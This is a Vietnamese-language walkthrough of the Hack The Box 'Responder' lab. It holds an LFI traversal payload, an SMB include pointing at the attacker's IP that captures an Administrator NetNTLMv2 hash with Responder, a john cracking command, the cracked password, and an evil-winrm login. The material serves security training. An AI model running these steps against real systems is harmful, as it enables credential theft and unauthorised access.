









# Responder

## Introduction

Windows là hệ điều hành phổ biến nhất trên thế giới ngày nay vì khả năng truy cập GUI dễ sử dụng. Khoảng 85% thị phần đã trở thành hệ điều hành quan trọng để tấn công. Hơn nữa, hầu hết các tổ chức đều sử dụng Active Directory để thiết lập mạng miền Windows của họ. Microsoft sử dụng NTLM (New Technology LAN Manager) & Kerberos cho các dịch vụ xác thực. Mặc dù có các lỗ hổng đã biết, NTLM vẫn được triển khai rộng rãi ngay cả trên các hệ thống mới để duy trì khả năng tương thích với các máy khách và máy chủ cũ.

Phòng thí nghiệm này tập trung vào cách lỗ hổng File Inclusion trên trang web được phục vụ trên máy Windows có thể bị khai thác để thu thập thử thách NetNTLMv2 của người dùng đang chạy máy chủ web. Sẽ sử dụng một tiện ích có tên là `Responder` để nắm bắt hàm băm NetNTLMv2 và sau đó sử dụng một tiện ích có tên là `john the ripper` để kiểm tra hàng triệu mật khẩu tiềm năng để xem chúng có khớp với mật khẩu được sử dụng để tạo hàm băm hay không. Cũng sẽ xem xét sâu hơn về quy trình hoạt động của xác thực NTLM và cách tiện ích Responder nắm bắt thử thách. Việc hiểu được cách thức hoạt động ẩn bên trong của một công cụ hoặc một khuôn khổ là rất quan trọng vì nó củng cố nền tảng hiểu biết của một người, hỗ trợ cho các tình huống khai thác trong thế giới thực mà người ta có thể gặp phải, mà thoạt nhìn có vẻ không dễ bị tấn công. Hãy cùng tìm hiểu sâu hơn.

## Enumeration

Bắt đầu bằng cách quét máy chủ để tìm bất kỳ cổng mở nào và chạy dịch vụ bằng quét Nmap. Sử dụng các cờ sau để quét:

```
-p-: Cờ này quét tất cả các cổng TCP trong phạm vi từ 0-65535
-sV: Cố gắng xác định phiên bản dịch vụ đang chạy trên một cổng
--min-rate: Được sử dụng để chỉ định số lượng gói tin tối thiểu mà Nmap phải gửi mỗi giây; nó tăng tốc độ quét khi số lượng tăng lên
```

```
nmap -p- --min-rate 1000 -sV 10.129.128.223
```



```
Nmap xác định dịch vụ đang chạy trên cổng như thế nào?
Nmap sử dụng cơ sở dữ liệu dịch vụ cổng của các dịch vụ nổi tiếng để xác định dịch vụ đang chạy trên một cổng cụ thể. Sau đó, nó cũng gửi một số yêu cầu cụ thể về dịch vụ đến cổng đó để xác định phiên bản dịch vụ và bất kỳ thông tin bổ sung nào về dịch vụ đó. Do đó, Nmap chủ yếu nhưng không phải lúc nào cũng chính xác về thông tin dịch vụ cho một cổng cụ thể.
```

Theo kết quả quét Nmap, máy đang sử dụng Windows làm hệ điều hành. Hai cổng được phát hiện là mở với máy chủ web Apache chạy trên cổng 80 cùng với WinRM trên cổng 5985.

```
Windows Remote Management, hay WinRM, là một giao thức quản lý từ xa tích hợp sẵn trên Windows, về cơ bản sử dụng Simple Object Access Protocol để tương tác với máy tính và máy chủ từ xa, cũng như Hệ điều hành và ứng dụng. WinRM cho phép người dùng:
→ Giao tiếp và tương tác từ xa với máy chủ
→ Thực thi lệnh từ xa trên các hệ thống không phải cục bộ với bạn nhưng có thể truy cập mạng.
→ Giám sát, quản lý và cấu hình máy chủ, hệ điều hành và máy khách từ một vị trí từ xa.
Điều này có nghĩa là nếu có thể tìm thấy thông tin xác thực (thường là tên người dùng và mật khẩu) cho người dùng có quyền quản lý từ xa, có thể có được shell PowerShell trên máy chủ.
```

### Website Enumeration

Khi mở Firefox và nhập http://[target ip], trình duyệt trả về thông báo không tìm thấy trang web đó. Khi nhìn vào thanh URL, hiện tại nó hiển thị
http://unika.htb. Trang web đã chuyển hướng trình duyệt đến một URL mới và máy chủ không biết cách tìm unika.htb. Máy chủ web này đang sử dụng Virtual Hosting dựa trên tên để phục vụ các yêu cầu.

```
Name-Based Virtual hosting là phương pháp lưu trữ nhiều tên miền (với cách xử lý riêng biệt cho từng tên) trên một máy chủ duy nhất. Điều này cho phép một máy chủ chia sẻ tài nguyên của mình, chẳng hạn như bộ nhớ và chu kỳ bộ xử lý, mà không yêu cầu tất cả các dịch vụ phải được sử dụng bởi cùng một tên máy chủ.
```
Máy chủ web kiểm tra tên miền được cung cấp trong trường tiêu đề `Host` của yêu cầu HTTP và gửi phản hồi theo đó.

Tệp `/etc/hosts` được sử dụng để phân giải tên máy chủ thành địa chỉ IP và do đó sẽ cần thêm một mục trong tệp `/etc/hosts` cho tên miền này để cho phép trình duyệt phân giải địa chỉ cho `unika.htb`.

Mục trong tệp `/etc/hosts`:

```
 echo "10.129.128.223       unika.htb" | sudo tee -a /etc/hosts
```

Thêm mục nhập này vào tệp `/etc/hosts` sẽ cho phép trình duyệt phân giải tên máy chủ `unika.htb` thành địa chỉ IP tương ứng và do đó khiến trình duyệt bao gồm tiêu đề HTTP `Host: unika.htb` trong mọi yêu cầu HTTP mà trình duyệt gửi đến địa chỉ IP này, điều này sẽ khiến máy chủ phản hồi bằng trang web cho `unika.htb`.

Khi truy cập trang web sẽ thấy trang đích kinh doanh thiết kế web.


Khi kiểm tra trang web, không thấy có gì đặc biệt thú vị. Mặc dù vậy, nhận thấy tùy chọn lựa chọn ngôn ngữ trên thanh điều hướng `EN` và việc thay đổi tùy chọn thành `FR` sẽ đưa đến phiên bản tiếng Pháp của trang web.


Khi chú ý đến URL, có thể thấy rằng trang `french.html` đang được tải bởi tham số `page`, có khả năng dễ bị tấn công bởi lỗ hổng Local File Inclusion (LFI) nếu dữ liệu đầu vào của trang không được khử trùng.

### File Inclusion Vulnerability

Các trang web động bao gồm các trang HTML khi đang chạy bằng cách sử dụng thông tin từ yêu cầu HTTP để bao gồm các tham số GET và POST, cookie và các biến khác. Một trang thường "include" một trang khác dựa trên một số tham số này.

```
LFI hoặc Local File Inclusion xảy ra khi kẻ tấn công có thể khiến một trang web đưa vào một file không phải là tùy chọn cho ứng dụng này. Một ví dụ phổ biến là khi một ứng dụng sử dụng đường dẫn đến file làm đầu vào. Nếu ứng dụng coi đầu vào này là đáng tin cậy và các kiểm tra vệ sinh bắt buộc không được thực hiện trên đầu vào này, thì kẻ tấn công có thể khai thác nó bằng cách sử dụng chuỗi `../` trong tên file đã nhập và cuối cùng xem các file nhạy cảm trong hệ thống tệp cục bộ. Trong một số trường hợp hạn chế, LFI cũng có thể dẫn đến thực thi mã.
```

```
RFI hay Remote File Inclusion tương tự như LFI nhưng trong trường hợp này, kẻ tấn công có thể tải tệp từ xa lên máy chủ bằng các giao thức như HTTP, FTP, v.v.
```

Kiểm tra tham số `page` để xem liệu có thể include các file trên hệ thống đích trong phản hồi của máy chủ hay không. Sẽ kiểm tra với một số tệp thường được biết đến có cùng tên trên các mạng, miền Windows và hệ thống có thể được tìm thấy tại https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt. Một trong những tệp phổ biến nhất mà người kiểm tra thâm nhập có thể cố gắng truy cập trên máy Windows để xác minh LFI là tệp hosts, `WINDOWS\System32\drivers\etc\hosts` (tệp này hỗ trợ dịch cục bộ tên máy chủ sang địa chỉ IP). Chuỗi `../` được sử dụng để duyệt ngược lại một thư mục, từng thư mục một. Do đó, nhiều chuỗi `../` được include trong URL để trình xử lý tệp trên máy chủ duyệt ngược lại thư mục cơ sở, tức là `C:\`.

```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```



Tuyệt, LFI có thể thực hiện được vì có thể xem nội dung của tệp `C:\windows\system32\drivers\etc\hosts` trong response.

Việc đưa tệp vào, trong trường hợp này, có thể thực hiện được vì ở phần phụ trợ, phương thức include() của PHP đang được sử dụng để xử lý trang tham số URL để phục vụ một trang web khác cho các ngôn ngữ khác nhau. Và vì không có quá trình khử trùng thích hợp nào được thực hiện trên tham số trang này, nên có thể truyền đầu vào độc hại và do đó xem các tệp hệ thống nội bộ.

#### What is the `include()` method in PHP?

Câu lệnh `include` lấy tất cả văn bản/mã/đánh dấu có trong tệp được chỉ định và tải vào bộ nhớ, giúp sử dụng được.

Ví dụ:

```
File 1 --> vars.php
<?php

$color = 'green';
$fruit = 'apple';

?>

#############################################

File 2 --> test.php 
<?php
 
echo "A $color $fruit"; // output = "A"

include 'vars.php';

echo "A $color $fruit"; // output = "A green apple"

?>
```

## Responder Challenge Capture

Biết rằng trang web này dễ bị tấn công bởi lỗ hổng file inclusion và đang được phục vụ trên máy Windows. Do đó, có khả năng bao gồm tệp trên máy trạm của kẻ tấn công. Nếu chọn giao thức như SMB, Windows sẽ cố gắng xác thực với máy của tôi và có thể nắm bắt NetNTLMv2.

### What is NTLM (New Technology Lan Manager)?

NTLM là tập hợp các giao thức xác thực do Microsoft tạo ra. Đây là giao thức xác thực challenge-response được sử dụng để xác thực máy khách với một tài nguyên trên miền Active Directory.

Đây là một loại đăng nhập một lần (SSO) vì nó cho phép người dùng cung cấp yếu tố xác thực cơ bản chỉ một lần, khi đăng nhập.

Quy trình xác thực NTLM được thực hiện theo cách sau:

1. Máy khách gửi tên người dùng và tên miền đến máy chủ.

2. Máy chủ tạo một chuỗi ký tự ngẫu nhiên, được gọi là thử thách.

3. Máy khách mã hóa thử thách bằng hàm băm NTLM của mật khẩu người dùng và gửi lại cho máy chủ.

4. Máy chủ truy xuất mật khẩu người dùng (hoặc tương đương).

5. Máy chủ sử dụng giá trị băm được truy xuất từ ​​cơ sở dữ liệu tài khoản bảo mật để mã hóa chuỗi thử thách. Sau đó, giá trị này được so sánh với giá trị nhận được từ máy khách. Nếu các giá trị khớp nhau, máy khách sẽ được xác thực.

### NTLM vs NTHash vs NetNTMLv2

Thuật ngữ xung quanh xác thực NTLM rất lộn xộn và ngay cả những người chuyên nghiệp cũng sử dụng sai thuật ngữ này theo thời gian, vì vậy hãy cùng tìm hiểu một số thuật ngữ chính:

- Hàm băm là hàm một chiều lấy bất kỳ lượng dữ liệu nào và trả về một giá trị có kích thước cố định. Thông thường, kết quả được gọi là hash, digest hoặc fingerprint. Chúng được sử dụng để lưu trữ mật khẩu an toàn hơn vì không có cách nào để chuyển đổi trực tiếp hàm băm trở lại dữ liệu gốc (mặc dù có các cuộc tấn công nhằm cố gắng khôi phục mật khẩu từ hàm băm, sẽ thấy sau). Vì vậy, máy chủ có thể lưu trữ hàm băm mật khẩu và khi gửi mật khẩu đến trang web, máy chủ sẽ băm dữ liệu đầu vào và so sánh kết quả với hàm băm trong cơ sở dữ liệu và nếu chúng khớp, máy chủ sẽ biết đã cung cấp mật khẩu chính xác.

- NTHash là đầu ra của thuật toán được sử dụng để lưu trữ mật khẩu trên các hệ thống Windows trong cơ sở dữ liệu SAM và trên bộ điều khiển miền. NTHash thường được gọi là hàm băm NTLM hoặc thậm chí chỉ là NTLM, rất dễ gây hiểu lầm/gây nhầm lẫn.

- Khi giao thức NTLM muốn thực hiện xác thực qua mạng, nó sử dụng mô hình challenge/response như mô tả ở trên. Một challenge/response NetNTLMv2 là một chuỗi được định dạng cụ thể để bao gồm challenge và response. Điều này thường được gọi là hàm băm NetNTLMv2, nhưng thực tế nó không phải là hàm băm. Tuy nhiên, nó thường được gọi là hàm băm vì tấn công nó theo cùng một cách. Sẽ thấy các đối tượng NetNTLMv2 được gọi là NTLMv2 hoặc thậm chí gây nhầm lẫn là NTLM.

## Using Responder

Trong tệp cấu hình PHP `php.ini`, trình bao bọc "allow_url_include" được đặt thành "Tắt" theo mặc định, cho biết PHP không tải URL HTTP hoặc FTP từ xa để ngăn chặn các cuộc tấn công bao gồm tệp từ xa. Tuy nhiên, ngay cả khi `allow_url_include` và `allow_url_fopen` được đặt thành "Tắt", PHP sẽ không ngăn chặn việc tải URL SMB. Trong trường hợp này, có thể sử dụng sai chức năng này để đánh cắp băm NTLM.

Bây giờ, sử dụng ví dụ từ https://book.hacktricks.xyz/windows/ntlm/places-to-steal-ntlm-creds#lfi, có thể thử tải URL SMB và trong quá trình đó, có thể nắm bắt các băm từ mục tiêu bằng Responder.

```
How does Responder work?

Responder có thể thực hiện nhiều loại tấn công khác nhau, nhưng đối với kịch bản này, nó sẽ thiết lập một máy chủ SMB độc hại. Khi máy mục tiêu cố gắng thực hiện xác thực NTLM cho máy chủ đó, Responder sẽ gửi lại một challenge để máy chủ mã hóa bằng mật khẩu của người dùng. Khi máy chủ phản hồi, Responder sẽ sử dụng challenge và response được mã hóa để tạo NetNTLMv2. Mặc dù không thể đảo ngược NetNTLMv2, có thể thử nhiều mật khẩu phổ biến khác nhau để xem có mật khẩu nào tạo ra cùng một challenge-response không và nếu tìm thấy, đó là mật khẩu. Điều này thường được gọi là bẻ khóa băm, sẽ thực hiện bằng một chương trình có tên là John The Ripper.
```

Để bắt đầu, nếu tiện ích Responder chưa được cài đặt trên máy, sẽ sao chép kho lưu trữ Responder vào máy cục bộ.

```
git clone https://github.com/lgandx/Responder
```

Đảm bảo rằng `Responder.conf` được thiết lập để lắng nghe các yêu cầu SMB.



Khi tệp cấu hình đã sẵn sàng, có thể tiến hành khởi động Responder bằng python3, truyền vào giao diện để lắng nghe bằng cờ `-I`:

```
sudo python3 Responder.py -I tun0
```

Giao diện mạng có thể được kiểm tra bằng cách chạy lệnh `ifconfig` trong terminal.

Trong trường hợp của Kali Linux hoặc HTB Pawnbox, Responder được cài đặt theo mặc định như một tiện ích hệ thống, do đó, nó có thể được khởi chạy chỉ bằng cách chạy lệnh `sudo responder -I {network_interface}`.



Khi máy chủ Responder đã sẵn sàng, yêu cầu máy chủ bao gồm một tài nguyên từ máy chủ SMB bằng cách thiết lập tham số `page` như sau thông qua trình duyệt web.

```
 http://unika.htb/?page=//10.10.14.25/somefile
```

Trong trường hợp này, vì có quyền tự do chỉ định địa chỉ cho chia sẻ SMB, nên chỉ định địa chỉ IP của máy tấn công. Bây giờ máy chủ cố gắng tải tài nguyên từ máy chủ SMB và Responder nắm bắt đủ tài nguyên đó để có được NetNTLMv2.

Lưu ý: Đảm bảo thêm http:// vào địa chỉ vì một số trình duyệt có thể chọn tìm kiếm trên Google thay vì điều hướng đến trang thích hợp.

Sau khi gửi dữ liệu qua trình duyệt web, nhận được lỗi không thể tải tệp được yêu cầu.



Nhưng khi kiểm tra máy chủ Responder, có thể thấy có NetNTLMv cho người dùng Quản trị viên.



NetNTLMv2 bao gồm cả challenge (văn bản ngẫu nhiên) và response được mã hóa.

## Hash Cracking

Có thể dump băm vào một file và cố gắng bẻ khóa nó bằng `john`, đây là một tiện ích bẻ khóa băm mật khẩu.

```
echo "Administrator::DESKTOP
H3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E00480045003800440049003400410053004300510004003400570049004E002D004E0048004500380044004900340041005300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA92630A77E073056DA8C3F356D47C324C6D6D16F0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" > hash.txt
```

Chuyển file băm cho `john` và bẻ khóa mật khẩu cho tài khoản Administrator. Kiểu băm được tự động xác định bởi công cụ dòng lệnh `john`.

```
-w: wordlist dùng để bẻ khóa băm
```

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```



`john` sẽ thử từng mật khẩu từ danh sách mật khẩu đã cho, mã hóa challenge bằng mật khẩu đó. Nếu kết quả khớp với response, thì nó biết rằng đã tìm thấy mật khẩu đúng. Trong trường hợp này, mật khẩu của tài khoản Administrator đã bị bẻ khóa thành công.

```
password : badminton
```

## WinRM

Kết nối với dịch vụ WinRM trên mục tiêu và cố gắng lấy phiên. Vì PowerShell không được cài đặt trên Linux theo mặc định, sử dụng một công cụ có tên là Evil-WinRM được tạo ra cho loại tình huống này.

```
 evil-winrm -i 10.129.136.91 -u administrator -p badminton
```



Có thể tìm thấy flag ở `C:\Users\mike\Desktop\flag.txt`.



Bây giờ có thể sử dụng lệnh `type` để xem nội dung của `flag.txt`.